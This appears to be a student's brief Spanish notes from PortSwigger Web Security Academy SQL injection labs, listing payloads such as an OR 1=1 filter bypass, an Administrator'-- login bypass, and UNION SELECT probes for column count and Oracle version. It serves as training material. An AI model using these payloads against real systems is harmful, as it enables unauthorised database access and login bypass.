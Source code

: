 ```yaml
---

typora-copy-images-to: ../../mis_assets/img/rails/

typora-root-url:  ../../

layout: post

---
```


> Laboratorio 1

```html
https://ac241f1c1e1c928a80cc0b910061008d.web-security-academy.net/filter?category=gifts'+OR+1=1-
```

![1](/DEV-OPS/mis_assets/img/SQL inyection/1.png)



|Laboratorio 2

Añadimos en el campo usuario = Administrator’--

Añadimos en el campo contraseña = ‘’



![2](/DEV-OPS/mis_assets/img/SQL inyection/2.png)



| Laboratorio 3



Añadimos a partir de la categoría el siguiente código:

UNION SELECT NULL,NULL, NULL-



![3](/DEV-OPS/mis_assets/img/SQL inyection/3.png)



| Laboratorio 4



+UNION+SELECT+BANNER,+NULL+FROM+v$version--

![(/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/4.png)



![5](/DEV-OPS/mis_assets/img/SQL inyection/5.png)
